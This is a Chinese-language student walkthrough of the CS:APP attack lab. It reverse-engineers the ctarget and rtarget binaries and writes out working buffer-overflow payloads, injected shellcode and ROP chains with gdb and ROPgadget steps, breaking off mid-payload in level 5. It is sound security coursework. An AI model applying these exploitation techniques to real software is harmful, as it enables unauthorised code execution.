> pwn,砰~

## ctarget

### 架构分析

```bash
<yolo> /mnt/c/Users/24062/Documents/计算机组成/target73
❯ checksec ctarget                                                      □ 计算机组成/target73 ℂ v14.2.0-gcc 68% ↓ 13:59
[*] '/mnt/c/Users/24062/Documents/计算机组成/target73/ctarget'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

地址并没有随机化，存在Canary金丝雀保护，64位小端序程序

### 逆向审计

> 工具：Ghidra,linux命令行

根据实验手册，ctarget共有三个关卡，着重分析的代码有`getbuf(),touch1(),touch2(),touch3()`

#### main()

这里回顾下怎么在Ghidra中快速跳转对应函数



下面我分多段来分析main函数

> part1

```c
int main(int argc,char **argv)

{
  int iVar1;
  char *__shortopts;
  ulong uVar2;
  ulong uVar3; 
//上述内容是函数签名以及变量定义
  
  signal(0xb,seghandler);//段错误
  signal(7,bushandler);//总线错误
  signal(4,illegalhandler);//非法指令
//上述内容是信号处理设置，无需深入了解
//下面是两种调用模式
    //非checker模式，短选项里有h:帮助、q:静默模式、i:插入文件（参考实验报告得到的结论
  if (is_checker == 0) {
    __shortopts = "hqi:";
  }
    //checker模式，相较上一种模式多了a:和l:选项，定义了定时器超时处理器，超过5s会触发
  else {
    signal(0xe,sigalrmhandler);
    alarm(5);
    __shortopts = "hi:a:l:";
  }
  infile = stdin; //默认输入为标准输入
  uVar2 = 0; //包括下一行都是在定义某一种变量参数，作用暂时未知
  uVar3 = 0;
```

> part2

```c
  while( true ) {
    iVar1 = getopt(argc,argv,__shortopts);
    if ((char)iVar1 == -1) break;//循环处理命令行选项，直到没有更多选项
    switch(iVar1 - 0x61U & 0xff) { //处理选项的部分，用表达式将选项里的小写字母偏移到较小整数范围，用于case匹配，举个例子，选项q的ASCII值113转换成十六进制就是0x71,这个时候减去0x61后得到结果0x10，恰好出现在case列表中
    case 0: //选项a
      uVar3 = strtoul(optarg,(char **)0x0,0x10); //将认证密钥转换成ulong
      uVar3 = uVar3 & 0xffffffff; //截断为32位
      break;
    default: //没有匹配的选项，崩溃退出
      __printf_chk(1,"Unknown flag \'%c\'\n",(int)(char)iVar1);
      usage(*argv);
      goto LAB_0040192d;
    case 7: //选项h
      usage(*argv);  //打印用法
    case 8: //选项i
      infile = (FILE *)fopen(optarg,"r"); //打开文件并作为输入，失败则报错退出
      if ((FILE *)infile == (FILE *)0x0) {
        __fprintf_chk(stderr,1,"Cannot open input file \'%s\'\n",optarg);
        return 1;
      }
      break;
    case 0xb: //选项l，暂时不知道作用
      uVar2 = strtol(optarg,(char **)0x0,10); //处理字符串为十进制
      uVar2 = uVar2 & 0xffffffff;//截取32位
      break;
    case 0x10: //q
      notify = 0; //静默模式，不会将结果返回到服务器中
    }
  }
```

> part3

```c
LAB_0040192d: //解析结束后的初始化
  initialize_target((int)uVar2,0); //调用初始化函数，并传入变量uVar2
  if ((is_checker != 0) && (authkey != (uint)uVar3)) { //如果是checker模式并且提供的密钥域内置的authkey不同，会打印报错并直接check_fail
    __printf_chk(1,"Supplied authentication key 0x%x != target key\n",uVar3);
                    /* WARNING: Subroutine does not return */
    check_fail();
  }
  __printf_chk(1,"Cookie: 0x%x\n",cookie);
  stable_launch(buf_offset); //正常启动主逻辑
  return 0;
```

> **Summary:**
>
> 这里的main函数作用仅仅是处理命令行参数，下一步逆向应该关注stable_launch函数

#### stable_launch()

```c
void stable_launch(size_t offset) //函数签名

{
  void *__addr; //变量定义
  
  global_offset = offset; //保存全局偏移
  __addr = mmap((void *)0x55586000,0x100000,7,0x132,0,0); //尝试固定地址mmap,地址:0x55586000,大小:1MB,保护7(可读可写可执行),标志：0x132，匿名映射。目标是强行占用该地址区间作为我们的可控执行区
  if (__addr == (void *)0x55586000) {//如果强行占用该地址成功
    stack_top = (void *)0x55685ff8; //手动建立新栈空间
    uRam0000000055685ff0 = 0x402714; //写入一个返回地址
    global_save_stack = &stack0xfffffffffffffff8; //保存原栈指针的某个偏移，用于恢复
    launch(global_offset); //将栈调整好后执行下一步主逻辑
    *(undefined8 *)((long)global_save_stack + -8) = 0x40272b; //恢复原来的栈布局，并解除映射
    munmap((void *)0x55586000,0x100000);
    return;
  }
  munmap(__addr,0x100000);//如果映射失败，先释放意外映射的内存并报错退出
  __fprintf_chk(stderr,1,"Couldn\'t map stack to segment at 0x%lx\n",0x55586000);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

> **summary:**
>
> 本函数的目的是在固定的内存地址映射一块可执行内存作为新的栈，在新的栈布局中调用launch函数

#### launch()

乱七八糟（本函数没有精读的必要，可直接跳过

```c
//上面省略部分是函数签名以及变量定义
  local_10 = *(long *)(in_FS_OFFSET + 0x28);//栈金丝雀保护，不管
  for (puVar3 = auStack_18; puVar3 != auStack_18 + -(offset + 0x17 & 0xfffffffffffff000);
      puVar3 = puVar3 + -0x1000) {
    *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
  }//循环移动栈指针，分配空间，当循环结束时，puVar3指向auStack_18下方（偏移+对齐后大小）的位置，可以理解为栈向下增长一定的字节，这里的循环手工实现了一个alloca的对齐版本，并且每次访问一页
  uVar2 = (ulong)((uint)(offset + 0x17) & 0xff0);//对齐到16字节边界，取低12位
  lVar1 = -uVar2;
  if (uVar2 != 0) {//如果额外对齐量不为0，再次执行一个空赋值来手动对齐
    *(undefined8 *)(puVar3 + -8) = *(undefined8 *)(puVar3 + -8);
  }//最终栈指针=puVar3+lVar1 (lVar1=-uVar2),栈向下额外移动最多4080字节
  *(undefined8 *)(puVar3 + lVar1 + -8) = 0x402631; //设置返回地址占位，为新栈顶下方8字节处写入0x402631作为返回地址
  memset((void *)((ulong)(puVar3 + lVar1 + 0xf) & 0xfffffffffffffff0),0xf4,offset);//填充hlt滑板区：对齐到16字节边界后，写入hlt指令(x86停机指令)，长度为offset字节
  if (infile == stdin) {//如果输入来自终端，会提示type string:
    *(undefined8 *)(puVar3 + lVar1 + -8) = 0x402691;
    __printf_chk(1,"Type string:");
  }
  vlevel = 0;//设置全局变量vlevel=0,用来区分3个关卡用的
  *(undefined8 *)(puVar3 + lVar1 + -8) = 0x402655;
  test();//调用关键函数test
  if (is_checker == 0) {
    *(undefined8 *)(puVar3 + lVar1 + -8) = 0x40266a;//检测canary是否变化，没有变化会正常返回，若变化会崩溃报错
    puts("Normal return");
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return;
    }
                    /* WARNING: Subroutine does not return */
    *(code **)(puVar3 + lVar1 + -8) = stable_launch;
    __stack_chk_fail();
  }
  *(undefined8 *)(puVar3 + lVar1 + -8) = 0x40269f;//checker模式的话，会打印No exploit并直接调用check_fail
  puts("No exploit");
                    /* WARNING: Subroutine does not return */
  *(undefined8 *)(puVar3 + lVar1 + -8) = 0x4026a9;
  check_fail();
}
```

这种手动栈操作的目的：

1. **绕过编译器优化**：让栈布局不可预测
2. **创建特定的内存布局**：为漏洞利用创造条件
3. **反逆向**：静态分析很难理解真正的栈结构
4. **栈金丝雀保护**：仍然保留，但布局被打乱

> **Summary:**
>
> launch函数进行了一系列手动栈操作，整体来说其实是帮我们构造一个简单的栈空间，方便我们后面分析漏洞代码并利用，不能理解它的操作过程也没关系，可以跳过直接查看test函数，把launch函数当作初始化阶段中给我们申请题目利用的栈空间的代码即可，明白下一步调用的函数是test()

#### test()

```c
void test(void)

{
  uint uVar1;
  
  uVar1 = getbuf();
  __printf_chk(1,"No exploit.  Getbuf returned 0x%x\n",uVar1);
  return;
}
```

很好读了，单纯调用getbuf()函数，可以意识到，getbuf函数是一种读取输入的函数，如果存在缓冲区溢出，我们能直接指定返回地址为我们希望的函数地址

#### getbuf()

```c
uint getbuf(void)

{
  char buf [32];//在栈上分配32字节的字符数组
  
  Gets(buf); //关键函数，由于是自定义，还需要审计
  return 1;
}
```

 #### Gets()

这是自定义函数

```c
//省略函数签名与变量定义
  gets_cnt = 0; //初始化，统计读取字数
  puVar2 = (uchar *)dest; //指向目标缓冲区的起始位置
  while( true ) { //无限循环读取
    iVar1 = getc((FILE *)infile);
    if ((iVar1 == -1) || (iVar1 == 10)) break;//终止条件是遇到'EOF'或'\n'
    *puVar2 = (uchar)iVar1; //写入缓冲区
    save_char((uchar)iVar1); //记录字符
    puVar2 = puVar2 + 1; //指针递增,移动到下一个字符
  }
  *puVar2 = '\0';//字符串末尾添加空字符\0
  save_term(); //编辑记录结束，保存结束信息
  return dest; //返回
}
```

审计完了，会发现这里的漏洞很明显，结合getbuf的相关内容，二进制会提前申请32字节大小的数组，正常情况下是让这32字节写入buf就结束了，但是漏洞在于这里的puVar2并没有边界检测，我们会发现它的读取停止条件仅仅是EOF或换行符，因此我们输入的长度完全可以超过buf所谓的32字节，**然后覆盖栈布局上的一些存储器**，将里面存储的函数返回地址改为我们希望的函数地址即可

我刚刚画了下ctarget的函数调用逻辑，如下：


```mermaid
graph LR
    main[main函数] -->|调用| launch[launch函数]
    launch -->|设置栈| test[test函数]
    test -->|分配32字节缓冲区| getbuf[getbuf函数]
    getbuf -->|无边界检查| Gets[Gets函数]
    Gets -->|返回| getbuf
    getbuf -->|返回1| test
    test -->|返回| launch
    launch -->|返回| main
```

函数分析并没有到此结束，还需要审计三个touch关卡函数

#### touch1

```c
void touch1(void)

{
  vlevel = 1;
  puts("Touch1!: You called touch1()");
  validate(1);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

没有读取任何参数，定义全局变量为vlevel=1，触发函数validate函数用于记录，可不用分析

> **Summary:**
>
> 第一关要求我们让getbuf函数返回的时候调用touch1对应的函数地址即可，没有什么坑

#### touch2

```c
void touch2(uint val)

{
  vlevel = 2; //设置关卡识别
  if (cookie == val) { //条件判断
    __printf_chk(1,"Touch2!: You called touch2(0x%.8x)\n",val);
    validate(2); //成功后会记录
  }
  else {
    __printf_chk(1,"Misfire: You called touch2(0x%.8x)\n",val);
    fail(2);
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

touch2的难度上升不少，函数签名里需要读取一个uint变量参数，具体的payload构造以及栈布局我会在后面进行分析

#### touch3

```c
void touch3(char *sval)

{
  int iVar1;
  
  vlevel = 3;
  iVar1 = hexmatch(cookie,sval);
  if (iVar1 == 0) {
    __printf_chk(1,"Misfire: You called touch3(\"%s\")\n",sval);
    fail(3);
  }
  else {
    __printf_chk(1,"Touch3!: You called touch3(\"%s\")\n",sval);
    validate(3);
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

touch3需要传递的是字符串指针，如果全局变量cookie和我传入的字符串指针存储的值相同，就挑战成功，否则失败，关于这里的字符串指针，也好理解，只要将字符串写入栈中，记录第一个字符的地址即可，具体的解法看后面的generate部分

#### hexmatch

```c

int hexmatch(uint val,char *sval)

{
  long lVar1;
  int iVar2;
  long lVar3;
  long in_FS_OFFSET;
  char cbuf [110];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  lVar3 = random(); //创建随机偏移
  __sprintf_chk(cbuf + lVar3 % 100,1,0xffffffffffffffff,&DAT_004042f3,val); //格式化字符串，并转成16进制字符串
  iVar2 = strncmp(sval,cbuf + lVar3 % 100,9); //字符串从偏移地址开始写入,要读取9个值，最后一个一定是给\00准备的，构造payload的时候需要注意
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) { //逐字符对比
    return (int)(iVar2 == 0);
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

这是touch3的一处考点，就是栈空间会随机化，每次访问并调用该函数，之前buf栈上的数据就会发生偏移,或者出现覆盖，这算是第三关真正要解决的问题

### generate exp

#### level1

解决这样的栈溢出题，必须先掌握对应的栈布局

优先查看后门函数getbuf，这里我们必须查看对应汇编来进行分析

有两个路线，一个继续用ghidra查看，另一个是调用objdump工具

> 调用objdump的命令和样子：
>
> ```bash
> objdump -d ctarget | grep -A 20 "<getbuf>:"
> ```
>
> 
>
> 直接用Ghidra看汇编的样子
>
> 

---

扩展：仔细观察，会看到两种方法输出的汇编有些许差异

单纯分析`offset=0x401e16`，在objdump中，汇编代码是：`sub    $0x28,%rsp`，这条汇编指令的作用是：将`%rsp`寄存器的值减去`0x28`,但是在ghidra中，对应的汇编代码：`SUB    RSP ,0x28`

二者的作用相同，只是不同的工具使用的语法不同，

objdump用的是AT&T语法，特点在于：

- 源操作数在前，目标在后：`sub 源,目标`

ghidra用的是Inter语法

- 目标操作数在前，源在后: `sub 目标,源`

不过它们对应的机器码相同，都是`48 83 ec 28`，作用也完全相同

---

相对来说，我认为看汇编最舒服的应该是使用命令行工具，比如我下面就是用objdump获取的getbuf函数汇编



```
0000000000401e12 <getbuf>:
  401e12:       f3 0f 1e fa             endbr64
  401e16:       48 83 ec 28             sub    $0x28,%rsp    # 分配40字节栈空间
  401e1a:       48 89 e7                mov    %rsp,%rdi    # buf指针作为参数
  401e1d:       e8 ad 02 00 00          call   4020cf <Gets> # 调用Gets(buf)
  401e22:       b8 01 00 00 00          mov    $0x1,%eax     # return 1
  401e27:       48 83 c4 28             add    $0x28,%rsp    # 回收栈空间
  401e2b:       c3                      ret                  # 返回
```

这里我先不讲getbuf的栈布局，先讲讲call这个汇编命令

.jpg)

还记得getbuf这个函数是test调用的嘛，就像下面截图的那样：



那么我手动整理下当时call getbuf时候的汇编

```assembly
push %rip    #%rip=0x402005
jmp <getbuf> # 0x401e12
```

这样一看，我们应该有这样的理解，就是getbuf完整的栈布局应当是从上一个函数调用它并存储rip开始的，下面是我手绘的完整栈布局，就按照test调用getbuf的行为作为栈帧吧



那么本题应该怎么处理呢？我们回忆下上面逆向的Gets函数，它会读取字符串内容保存到rsp指向的40字节缓冲区中，也就是我上图所谓的buf[0]到buf[39]，如果再往上填写，就要覆盖getbuf函数的返回地址了

---

**扩展：**

仔细观察的话，会发现我在逆向审计中，分析getbuf函数的时候说过，这里给buf申请了32字节吧，为啥到汇编中却是出现了40字节？多出来的8字节是哪里来的呢？这里就考察了x64架构的特性：为了提高CPU访问内存的效率，编译器会自动让栈顶指针RSP按照16字节对齐，假如说我们默认缓冲区就和伪代码看到的32字节一样，那么再加上8字节的返回地址，总共40字节无法被16整除，无法对齐，因此编译器为了凑整，会多分配8个字节，让缓冲区加上返回地址=48字节，刚好能被16整除，这也就是为什么我们直接看汇编代码的时候，这里给rsp申请0x28缓冲区大小的原因

那么函数如果是正常调用的时候应该参考buf[32]还是buf[40]呢？我并不认为这是个问题，不管是哪个，只要是正常交互，都没有超过40字节缓冲区，并不会覆盖返回地址引起奔溃，不过后续的函数调用一定参考的是buf[32]的协议，仅仅读取缓冲区的前32个字节，至于后面8字节的数据，会被无视

后者和我们解决问题无关了，总之呢，解决这类pwn栈溢出性质的题目，我认为应该以汇编代码为主，伪c代码为辅，如果遇到冲突，以汇编优先

---

按照上面的分析，只要我们能将getbuf的返回地址改成`touch1:0x401e2c`就能成功



> 温馨提示：Gets函数读取输入时，读的是二进制格式，也就是说我们直接敲入明文字符payload是无法生效的

还记得最开始我记录得架构分析嘛？这里的二进制文件是64位小端序，写入数据的时候务必要倒着写，比如地址`0x401e2c`，我们必须写成`2c 1e 40 00 00 00 00 00`

那么完整的payload应该是由40字节占位+8字节地址构成，用直观的16进制表示，如下：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
2c 1e 40 00 00 00 00 00
```

最后我们可以借助老师下发的工具hex2raw工具将payload转换成二进制形式

```bash
./hex2raw < test.txt > clevel1.txt
```



可以看出来吧，这里的clevel1.txt就是我说的，我们要提交的二进制文件，采取静默模式测试答案是否正确：

```bash
LD_PRELOAD=./printf.so ./ctarget < clevel1.txt -q
```

成功的效果如下：



#### level2

先留意对应函数的偏移地址：`objdump -d ctarget | grep "<touch2>:" -A 25`



回顾相关的逆向审计，要通过这一个关卡需要完成两个难点：

- `jmp <touch2>`
- 写入cookie参数

第一个难点还好，因为我们第一关已经解决了，第二个难点在于，如何才能在栈上将cookie的值存储到寄存器中呢？不能单纯靠第一关的溢出，它仅能做到跳转函数地址并执行，无法实现其它功能，比如写入寄存器等...

wait!，既然这里的栈溢出只能跳转函数地址，那么是不是说，我们能在缓冲区中写入适当的shellcode呢？所谓的shellcode就当作成汇编吧，让返回地址指向这里的shellcode，然后我们在shellcode里写入寄存器，并跳转到touch2不就成功了嘛？

我先手写下理论的汇编：

```assembly
movq $0x7fcd7c76, %rdi #将我自己的cookie写入rdi中，作为touch2的第一个参数
pushq $0x401e60 # 将touch2的地址压栈，或者说是写入当前shellcode运行完后的返回地址
ret # 返回到touch2
```

这里的q代表64位架构，老师上课讲的很清楚，主要是避免发生溢出导致写入的数据被截断

接下来我们编译下并获取对应的机器码

先将我上面写的汇编，去除注释，保存在level2.s文件中

用gcc编译成o文件：`gcc -c level2.s -o level2.o`

用objdump提取对应的机器码：`objdump -d level2.o`



通过上述操作，我们已经提取出最后要用的机器码：`48 c7 c7 76 7c cd 7f 68 60 1e 40 00 c3`

接下来务必进行动调，因为我也不太清楚，shellcode会在哪个栈地址执行，缓冲区的栈空间是二进制随机找的一段连续可写地址，打个比方，第一关的buf读取数据，我能控制里面写的内容，但是我并不清楚具体写到栈上的哪个地址，这很难静态逆向获取，只能动调打个断点继续

动调的时候一定要注意细节，我们不能上来直接打断点，一定要记得先使用-q触发静默模式，否则动调出错，提交到服务器的时候会扣分

下面是我在gdb中进行的所有操作：（先用`gdb ctarget`进入

```bash
break *0x401e12 #我打的是getbuf的断点，每个人的附件不一样，因此不能直接复制，可以自行调用objdump -d ctarget | grep "<getbuf>:"来获取
run -q #关键！使用-q可以进入静默模式，避免动调失败反而扣分
stepi 2 #在断点位置继续向下走两条指令
print $rsp #获取当前rsp寄存器的值
```

下面我会放图片来详细解读每条命令



从第二步开始说，这里我选择将断点打到getbuf上，如果读者足够熟练，大可直接打到0x401e1a，这样就不用我们后续执行跳过两条指令的操作了



第三步是开始运行二进制，我给它加了-q参数，具体原因我不追叙，执行后会发现程序很快停止，这意味着当前的二进制已经运行到断点了，也就是说当前在getbuf的位置0x401e12



理论上我们的动调大业已经完成了，注意我画框的地方，gdb会自动帮我们将后续几步申请的栈空间地址标注出来，不过想有更深刻的体验，可以看看后面两步



`stepi 2`的作用是从断点处向下执行两条指令，对应汇编里的`0x401e1a`，这里是`mov rdi, rsp`，之所以关注这里是因为它进行了栈操作，将我们的目标rsp写入到参数rdi中，这个时候不管获取什么寄存器，都一定能找到我们要的答案，就如下图



okey，第二关的分析差不多了，开始构造payload，`机器码+padding+shellcode_addr`

那么对应的明文十六进制答案如下：

```
48 c7 c7 76 7c cd 7f 68
60 1e 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 d9 62 55 00 00 00 00
```

后面的编码处理过程不重复了，和level1一样



> 警告！！！，不同环境下申请的栈空间可能不同，需要在服务器上提交前重做一次，相关原因如下：
>
> 

#### level3

上面我们有分析过，第三关需要传递一个参数，这个参数必须是一个字符串指针，对应字符串内容是我们自己的cookie值，我们真的能把它放到buf缓冲区中嘛？hexmatch告诉我们不可以，它会将buf栈空间进行偏移，导致buf上存储的cookie值被覆盖，让对应的指针无效，那么这个栈上哪个部分是安全的呢？由于栈是向下增长的，也就是说从高地址到低地址增长，我们要躲避hexmatch的随机化buf缓冲区，那么可以向上走，`touch3->test`,touch3的缓冲区不敢乱动，它距离hexmatch太近，还一不小心就会覆盖返回地址，总之难度要大于覆盖test栈帧的，回顾下对应的汇编



看0x401ff7，现在的你应该能熟练解读到当前指令是向rsp寄存器申请8字节大小的缓冲区，那么稳了，我们直接写shellcode的时候，将这个缓冲区的值覆盖成我们的cookie即可，继续打个断点，看看对应的缓冲区地址：



通过动调发现buf前面的安全缓冲区地址`0x5562d978`，会发现它要比buf缓冲区的地址高一点，恰好说明本二进制运行时的栈布局是向下递增的，画个简易的栈布局，如下：

```text
高地址
+-------------------+  ← 0x5562d980 (test 原来的栈顶)
|                   |
|  test 栈帧        |  ← 安全区域 ✅
|                   |
+-------------------+  ← 0x5562d978 (test 执行 sub rsp,8 后的栈顶)
|  getbuf 返回地址   |  ← 0x5562d970 (你覆盖这里)
+-------------------+
|                   |
|  getbuf 栈帧      |  ← 0x5562d948 (buf 起始)
|  (包含 buf[32])   |  ← 会被 hexmatch 覆盖 ❌
|                   |
+-------------------+  ← 低地址
```

按照前两关的经验，我们现在能做到的是写入shellcode并让getbuf的函数返回地址变成shellcode的地址来执行，shellcode中的大致内容应该如下：

```assembly
movq $0x5562d978, %rdi
pushq $0x401f7d
ret
```

但是我们忘记强行覆盖目标cookie内容到那个0x5562d978了，参考教程，好像是在payload末尾写入就可以了？我感觉不是很好理解，栈布局很难看，倒不如直接在执行shellcode的时候，将值强行写入指定内存？

手搓了一份汇编：

```assembly
movq $0x5562d978, %rdi #将目标缓冲区地址写入rdi寄存器中
movabsq $0x3637633764636637, %rax #将目标cookie写入rax中暂存
movq %rax, (%rdi) #还记得内存寻址嘛？本指令是将rax的值写入到rdi对应的内存中
movb $0x00, 8(%rdi) #依然是内存寻址，主要是为了让第9位变成空(\00)，否则hexmatch失败
pushq $0x401f7d #将touch3地址压入返回地址中 objdump -d ctarget | grep "<touch3>:" 这样看地址
ret #进入touch3
```

下面详细讲解下我是怎么构造写入的cookie值的

首先，我们要明确最终要写入的字符串内容：`7fcd7c76\0`,这是完整9个字节，按照从低到高的内存地址，详细看看下面的表格

| 地址偏移 | 字符 | ASCII码（十六进制） |
| -------- | ---- | ------------------- |
| +0       | '7'  | 0x37                |
| +1       | 'f'  | 0x66                |
| +2       | 'c'  | 0x63                |
| +3       | 'd'  | 0x64                |
| +4       | '7'  | 0x37                |
| +5       | 'c'  | 0x63                |
| +6       | '7'  | 0x37                |
| +7       | '6'  | 0x36                |
| +8       | '\0' | 0x00                |

原理如上，我们可以直接用xxd进行转换，



再按照小端序写`0x003637633764636637`两个数字为一字节，恰好是9字节吧，但是编译器会自动将00省略，请看我用`0x003637633764636637`编译的o文件



注意看，这里的00被自动省略，那么问题来了，hexmatch要对比9个字节，如果最后一个字节不是\0，而是栈上任意垃圾字符，那么我们还能挑战成功嘛？这个时候就要用到`movb $0x00, 8(%rdi)`它可以帮我们将rdi的第9个字节覆盖成00，这样我们就能完美挑战成功

这个是正确版本的机器码



现在我们构造payload：`机器码+padding+<touch3_addr>`

```text
48 c7 c7 78 d9 62 55 48
b8 37 66 63 64 37 63 37
36 48 89 07 c6 47 08 00
68 7d 1f 40 00 c3 00 00
00 00 00 00 00 00 00 00
48 d9 62 55 00 00 00 00
```



## rtarget

### 架构分析

同ctarget



### 逆向审计

按照实验报告描述，这个rtarget共两个关卡，大致内容和ctarget一致，我就不重复逆向了，然后这里的两个关卡，按照报告要求，完成level2和level3即可



且这里并不需要printf.so



先说说rtarget相较ctarget最大的区别：栈不可执行

在ctarget中我们将shellcode写入栈缓冲区中并执行，但是在rtarget中，这条路被堵死，参考报告中说的gadget指令，我能明确这剩下的两个关卡考察我们构造ROP链（gadget以及ROP相关名词是一个大名词统称

ROP的思路：不注入新代码，利用程序自身已有的代码片段（特别是以ret结尾的)，可以像拼积木那样将它们串联起来构造出我们想要的功能

### generate exp

#### level4

还记得在level2中，我怎么将cookie作为参数并跳转到touch2嘛？

```assembly
movq $0x7fcd7c76, %rdi #将我自己的cookie写入rdi中，作为touch2的第一个参数
pushq $0x401e60 # 将touch2的地址压栈，或者说是写入当前shellcode运行完后的返回地址
ret
```

现在shellcode无法执行，我们就得将原来的shellcode拆成两部分

- `popq %rax`：从栈上弹出cookie并存储到%rax中（栈上不是不让执行嘛，但是记录一些文件内容还是允许的
- `movq %rax, %rdi`：将%rax的值传给%rdi

有个特别好用的工具ROPgadget，它会快速帮我们在二进制中找到对应的指令，安装方法简单

```bash
pip install ropgadget
```

那么按照拆的两部分，依次运行下面两个命令

```bash
ROPgadget --binary rtarget | grep "pop rax"
ROPgadget --binary rtarget | grep "mov rdi, rax"
```

效果如下：



---

还记得我上面解释的汇编语法嘛？没错，这里的ROPgadget遵循的是Inter语法,但是我们编写汇编代码的时候，一般要遵循AT&T语法，就是所谓的`mov rax, rdi`,操作数在前，目标寄存器在后



---

我选择这两条指令：

```assembly
0x000000000040203f : pop rax ; ret
0x0000000000402032 : mov rdi, rax ; ret
```

它们足够干净，不会出现其它操作来影响我们存储的值



我前面不是说过栈上无法执行嘛，但是在我的栈布局中，我可以明确告诉读者，我并没有写入任何shellcode，确切来说，我仅仅写入两个函数地址以及一串cookie值，正常在栈上是无法执行的，但是当我覆盖到getbuf的返回地址的时候，后续程序只能按照我指定的地址跳转过去开始执行

那么本题的payload十六进制构造如下：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 20 40 00 00 00 00 00
76 7c cd 7f 00 00 00 00
32 20 40 00 00 00 00 00
60 1e 40 00 00 00 00 00
```

> 温馨提示，新的二进制中的touch函数的地址不一样，需要重新查看
>
> 

look here，本地运行成功



#### level5

第五关是想办法触发touch3，但是问题来了，原来在ctarget中，我们实现touch3是用shellcode强行将某串安全的缓冲区进行覆盖才能挑战成功的，感觉可能没有那个好运气，找齐所有的gadget?

下面是我针对level3写的shellcode

```assembly
movq $0x5562d978, %rdi #将目标缓冲区地址写入rdi寄存器中
movabsq $0x3637633764636637, %rax #将目标cookie写入rax中暂存
movq %rax, (%rdi) #还记得内存寻址嘛？本指令是将rax的值写入到rdi对应的内存中
movb $0x00, 8(%rdi) #依然是内存寻址，主要是为了让第9位变成空(\00)，否则hexmatch失败
pushq $0x401f7d #将touch3地址压入返回地址中 objdump -d ctarget | grep "<touch3>:" 这样看地址
ret #进入touch3
```

拆分下上面的shellcoe

| 步骤 | 功能             | 原始指令                            | 需要的 ROP gadget                      |
| ---- | ---------------- | ----------------------------------- | -------------------------------------- |
| 1    | 设置目标地址     | `movq $0x5562d978, %rdi`            | `pop rdi` 或 `mov rdi, rax`            |
| 2    | 加载 cookie 数值 | `movabsq $0x3637633764636637, %rax` | `pop rax`                              |
| 3    | 写入前 8 字节    | `movq %rax, (%rdi)`                 | `mov qword ptr [rdi], rax`             |
| 4    | 写入结尾 `\0`    | `movb $0x00, 8(%rdi)`               | `mov byte ptr [rdi + 8], 0`            |
| 5    | 跳转到 touch3    | `pushq $0x401f7d; ret`              | `push touch3; ret` 或直接 `jmp touch3` |

挨个查看

1. 写入参数值

```bash
ROPgadget --binary rtarget | grep "pop rdi"
0x0000000000402f07 : pop rdi ; ret
```

2. 从栈上读取cookie

```bash
ROPgadget --binary rtarget | grep "pop rax" 
0x000000000040203f : pop rax ; ret
```

3. 向rdi写入8字节

```bash
ROPgadget --binary rtarget | grep "mov qword ptr"
0x0000000000402941 : mov qword ptr [rdi + 8], rax ; ret
```

4. 补充字符串末尾的\0

```bash
ROPgadget --binary rtarget | grep "mov byte ptr"
0x000000000040225a : mov byte ptr [rdx + rax], 0 ; ret
```

5. 跳转touch3

```bash
ROPgadget --binary rtarget | grep " : ret$" 
0x000000000040101a : ret
```

基本上需要的指令就这些，但是还有个关键问题我们没有解决，就是每次栈地址都随机化，buf写入的地址每次都会改变，如果找不到写入的cookie值依然无效

问过ai，在gadget种类中存在一种`“mov rax, rsp”`它的作用是将当前的栈顶rsp保存在rax中，通过这样，我们就能确定每次动态栈的入口地址了，这样找：

```bash
ROPgadget --binary rtarget | grep "mov rax, rsp"
0x00000000004020af : mov rax, rsp ; ret
```

但是到这里是不是还不太够，我们还缺少固定偏移，就是不知道入口地址到cookie值有多远

这个的话，实在没办法静态分析，用gdb跑循环吧，看看入口地址和cookie值有多远，不过我能确定的是每次重新运行二进制，这个offset偏移是不变的，毕竟是字符串和rsp之间的差距是固定的

差点漏一点了，我们知道了偏移后，怎么做才能将当前地址按照偏移增长，到达我们需要的cookie地址呢？这个时候需要`lea eax, [rdi + rsi] ; ret`，乍一看这个指令是一个加法操作，但是这确确实实是我们需要的，如果说我们让rdi变成入口地址，rsi变成offset的值，加法处理的结果不就是偏移后的cookie地址嘛？

这样找它：

```bash
ROPgadget --binary rtarget | grep "lea.*rdi.*rsi"
0x000000000040208f : lea rax, [rdi + rsi] ; ret
```

上面的gadget基本上找完了，那么我们先generate一个大概的payload

`40字节padding->找到栈入口地址->配置偏移量->入口地址+偏移量->将cookie赋值给参数寄存器->ret touch3`

总之当前我们就剩下偏移量需要调试查看了

那我开始表演了，看看gdb是如何快速调试的

我们先假设，这里的偏移量是0x30,那么构造的明文payload应该如下：（注释是给大家快速区分的，自己构造的时候千万不要加注释

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  # 40 字节填充

af 20 40 00 00 00 00 00  # mov rax, rsp 这里我将变化的栈地址保存在rax中
80 19 40 00 00 00 00 00  # pop rsi 这里是设置参数寄存器rsi，作用是记录下面的偏移量
30 00 00 00 00 00 00 00  # 偏移量 (先猜一个 0x30)
32 20 40 00 00 00 00 00  # mov rdi, rax 这里将算出cookie地址的值保存在rax寄存器中
8f 20 40 00 00 00 00 00  # lea rax, [rdi + rsi] 这里明面上在进行加法运算，但本质上是计算栈入口地址+偏移量，能确保rax地址更新成cookie字符串的地址
32 20 40 00 00 00 00 00  # mov rdi, rax 给参数寄存器赋值真正的cookie地址
1a 10 40 00 00 00 00 00  # ret 跳转touch3
7d 1f 40 00 00 00 00 00  # touch3

